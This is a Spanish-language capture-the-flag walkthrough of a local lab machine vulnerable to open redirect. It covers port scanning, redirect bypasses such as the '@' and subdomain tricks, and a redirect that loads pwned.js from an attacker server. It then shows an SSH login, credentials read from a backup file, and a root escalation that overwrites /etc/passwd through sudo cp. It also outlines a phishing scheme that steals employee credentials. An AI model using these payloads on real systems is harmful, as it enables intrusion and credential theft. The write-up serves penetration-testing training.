 - Tags: #Redirection #OpenRedirect
---
[Maquina Redirection](https://mega.nz/file/CYlRlTKI#CxDKcj_cdI3VRXkYb_6aLzxEbrjh80FKb_cDazfwouU) -> Máquina donde se incluyen distintos laboratorios vulnerables a la vulnerabilidad Open Redirect. No hay escalada de privilegios en esta máquina.

- ##### OpenRedirectVulnerablility:
- **@** Por si sola no es muy letal, Pero si se concatena con otras vulnerabilidades desatando su verdadero potencial:
- **Phishing** -> Un **OpenRedirect** Se puede emplear con un ataque de **phishing**, Imaginando que tenemos los correos electronicos de una compania y el dominio de la empresa el real legitimo, Como atacante montariamos una campana de phishing para que a todos los empleados les llegue un correo suplantando al **ceo** de la empresa, donde indicariamos que existe una brecha de segurida y que es urgente que todos los usuarios deben actualizar sus credenciales inmediatamente.
- **( DominioLegitimo = alexcorp.com )** y **( DominioFalso = alexcorp.es )** donde del dominio falso estara clonada toda la web perfectamente, donde definimos una seccion para inicio de sesion falsa, De forma que cuando les enviamos este correo y lo abran veran un panel donde pueden iniciar sesion o cambiar sus credenciales en el panel falso desarrollado por el atacante.
- **OpenRedirect** -> Aqui entra en juego este ataque donde metemos en el redirect el **DominioLegitimo** para una ves que alla ingresado sus credenciales en el **DominioFalso** los redirigimos al **DominioLegitimo**
- **Nota:** -> Si los usuarios no se percatan que es un domino falso seran redirigidos a un panel de atacante, Donde un atacante puede definir que las credenciales de las victimas se almacenen en texto claro en el servidor del atacante 

```bash
7z x redirection.zip # Descomprimimos el archivo
sudo bash auto_deploy.sh redirection.tar # Desplegamos el laboratorio.
```

### Fase Reconocimiento:
```bash
172.17.0.2 # Direccion IP del target
ping -c 1 172.17.0.2 # Lanzamos una traza ICMP para determinar si tenemos conectividad con el target
```

```bash
wichSystem.py 172.17.0.2 # Gracias al ttl determinamos que estamos ante una maquina linux
172.17.0.2 (ttl -> 64): Linux
```

### Fase Enumeracion Puertos y Servicios:
```bash
escanerTCP.py -t 172.17.0.2 -p 1-60000 # Detectamos puertos atraves de TCP
nmap -p- -sS --open --min-rate 5000 -vvv -n -Pn 172.17.0.2 -oG allPorts
```

```bash
extractPorts allPorts # Parseamos la informacin mas relevante del escaneo
nmap -sC -sV -p22,80 172.17.0.2 -oN targeted # Escaneo exhaustivo para determinar los servicios y las versiones que corren detras de estos puertos.
```

```bash
22/tcp open  ssh     OpenSSH 9.2p1 Debian 2+deb12u3 (protocol 2.0) # Servicio ssh expuesto
```

### Fase Enumeracion Web:
```bash
80/tcp open  http    Apache httpd 2.4.62 ((Debian)) # Servicio web expuesto
```

```bash
whatweb http://172.17.0.2 # No reporta nada critico
```

```bash
nmap --script http-enum -p 80 172.17.0.2 # No reporta nada critico
```

### Fase Explotacion:

##### Laboratorio 1:
**( 172.17.0.2/laboratorio1/ )** -> Tenemos este seccion donde nos aplica un redirect cuando le damos clic en el boton: **( Ir a citio )**
**( ctrl + u )** -> Mirando el codigo fuente podemos ver que se esta empleando un redirect: ( redirect.php?url=http://google.com ) del cual nos aprovechamos para ver como reacciona si copiamos este fragmento e formando la url de la siguiente manera:
```bash
172.17.0.2/laboratorio1/redirect.php?url=https://dockerlabs.es/ # Nos redirige con exito a donde nosotros queremos.
```

Tambien podemos realizar solicitudes a nuestro servidor de atacante donde, intente cargar un recurso que contenca codigo malicioso como en el siguiente ejemplo
```bash
python3 -m http.server 80 # Tenemos nuestro servidor de atacante en escucha

172.17.0.2/laboratorio1/redirect.php?url=http://192.168.100.24/pwned.js # Intentamos cargar el recurso ( pwned.js ) que en nuestro servidor de atacante debera existir

# Tendremos peticiones, Donde se intenta cargar el recuros, Pero como no lo hemos definido falla
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
192.168.100.24 - - [27/May/2025 22:53:58] code 404, message File not found
192.168.100.24 - - [27/May/2025 22:53:58] "GET /pwned.js HTTP/1.1" 404 -
```

Ahora que si si existiera entonces se ejecutaria el codigo que nosotros definamos como atacante.

##### Laboratorio 2:
```bash
172.17.0.2/laboratorio2/redirect.php?url=https://dockerlabs.es/ # Para el este caso si intentamos realizar lo mismo no nos lo permite ya que controla esta redireccion

Redirección no permitida. Solo puedes redirigirte a Google. # Aplica validaciones que impiden que controlemos este parametro: ( url )
```

###### 🔍 **Análisis de la URL: ( BurpSuite )**

`/laboratorio2/redirect.php?url=https://www.google.com@https://dockerlabs.es/`

1. **Estructura básica:**
    - El script `redirect.php` toma un parámetro `url` para redirigir al usuario.
    - El valor del parámetro es `https://www.google.com@https://dockerlabs.es/`.
        
2. **Uso del `@`:**
    - El símbolo `@` en una URL se utiliza normalmente para separar **credenciales** (usuario:contraseña) del dominio (ej: `http://user:pass@example.com`).
    - En este caso, se está explotando para engañar al servidor o al cliente, haciendo que el redireccionamiento se realice a `https://dockerlabs.es/` en lugar de a Google.
        
3. **¿Cómo se interpreta?**
    - Algunos sistemas mal configurados podrían interpretar todo lo que está **después del `@`** como el destino real del redireccionamiento.
    - Si el script `redirect.php` no valida/sanitiza correctamente la entrada, redirigiría a `https://dockerlabs.es/`.

**Nota** -> Del mismo modo podemos realizar solicitudes a nuestro servidor de atacante para intentar ejecutar codigo malicioso que nosotros definamos como instruccion

##### Laboratorio 3:
**Nota** -> No nos permite emplear la tecnica anterior ya que esta sanitizada:
```bash
172.17.0.2/laboratorio3/redirect.php?url=https://www.google.com@http://192.168.100.24/pwned.js # No permite la redireccion.
```

Despues de intentar varias formas que no tuvieron exito, Logramaos contaminar la url apuntanto al subdominio: Donde le inyectamos esta cadena para ver como reacciona la web **( test )**
```bash
172.17.0.2/laboratorio3/redirect.php?url=https://test.google.com # Logramos romper la validacion.
```

#### Fase Intrusion:
```bash
# Tenemos credenciales de acceso por ssh
Usuario: balu
Password: balulero
```

```bash
ssh-keygen -R 172.17.0.2 && ssh balu@172.17.0.2 # Nos conectamos por ssh
```

### Fase Escalada Privilegios:
```bash
ls -la / # Listando archivos desde la rais
```

```bash
find / -type f -user balu 2>/dev/null # 
find / -type d -user balu 2>/dev/null # Filtrando por directorios vemos que tenemos este archivo

/secret.bak #
```

```bash
cat /secret.bak 
balulito:balulerochingon # Tenemos las credenciales de otro usuario del sistema.
```

```bash
ls /home
balulito # Intentaremos conectarnos como este usuario.
```

```bash
su balulito # Migramos a este usuario: ( balulerochingon )
```

```bash
sudo -l

User balulito may run the following commands on b5bd7d85a1dd:
    (ALL) NOPASSWD: /bin/cp # Tenemos una via potencial del elevar privilegios
```

**Nota** -> Para este caso nos aprovecharemos que podemos usar el comando **cp** para crear una capia del contenido del **( /etc/passwd )**, Nos creareamos uno igual con todo el contenido pero elminando la: **( x )** del usuario **root**.
```bash
root::0:0:root:/root:/bin/bash
```

Una ves que le quitemos la **( x )** y logremos sustituir este archivo por el original, podremos conectarnos como **root** sin proporcionar contrasena.
```bash
file.txt # Archivo malicioso con el contenido del /etc/passwd

sudo /bin/cp file /etc/passwd # Logramos modificar el archivo.
```

```bash
su # Ahora tendremos una bash como root sin proporcionar contrasena.
```